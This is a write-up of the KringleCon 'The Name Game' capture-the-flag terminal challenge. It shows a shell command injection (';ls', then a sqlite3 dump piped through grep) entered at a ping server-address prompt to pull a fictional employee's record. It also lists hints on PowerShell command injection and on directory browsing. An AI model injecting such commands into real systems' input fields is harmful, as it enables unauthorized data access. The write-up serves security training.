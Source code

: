 The Name Game
=============

Minty Candycane provides hints for **Objective 2** after you help her with the *The Name Game* Cranberry Pi terminal challenge.

Terminal Challenge
------------------
.. code-block:: none

 We just hired this new worker,
 Californian or New Yorker?
 Think he's making some new toy bag...
 My job is to make his name tag.

 Golly gee, I'm glad that you came,
 I recall naught but his last name!
 Use our system or your own plan,
 Find the first name of our guy "Chan!"
 
 -Bushy Evergreen

 To solve this challenge, determine the new worker's first name and submit to runtoanswer.




 ====================================================================
 =                                                                  =
 = S A N T A ' S  C A S T L E  E M P L O Y E E  O N B O A R D I N G =
 =                                                                  =
 ====================================================================




  Press  1 to start the onboard process.
  Press  2 to verify the system.
  Press  q to quit.


 Please make a selection: 

Our Solution
------------
After typing ``2`` the following appears [#f1]_ :

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: 

We observed that if you type ``;ls`` it works as a normal shell.

We see that the following items appear: ``menu.ps1``, ``onboard.db`` and ``runtoanswer``.
Therefore, by using ``; /usr/bin/sqlite3 onboard.db .dump | grep 'Chan'`` we get:

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: ; /usr/bin/sqlite3 onboard.db .dump | grep 'Chan'
 Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
             [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
             [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
             [-w deadline] [-W timeout] [hop1 ...] destination
 INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067','4017533509','scottmchan90067@gmail.com');
 onboard.db: SQLite 3.x database
 Press Enter to continue...: 

Therefore mr Chan's name is Scott.

Hints for the Terminal Challenge
--------------------------------

.. parsed-literal::
 **PowerShell Command Injection**
 From: Minty Candycane
 `PowerShell Call/& Operator <https://ss64.com/ps/call.html>`_

Hints for KringleCon Objective 2
--------------------------------

.. parsed-literal::
 **Finding Browsable Directories**
 From: Minty Candycane
 On a website, finding browsable directories is sometimes as simple as removing characters from the end of a URL.

.. parsed-literal::
 **Website Directory Browsing**
 From: Minty Candycane
 `Website Directory Browsing <https://portswigger.net/kb/issues/00600100_directory-listing>`_


.. rubric:: Extra Info
.. [#f1] After typing ``1`` we were taken to a registration page, which made us lose some time by trying to use that to solve the challenge. By typing ``q`` one cannot type anything more.
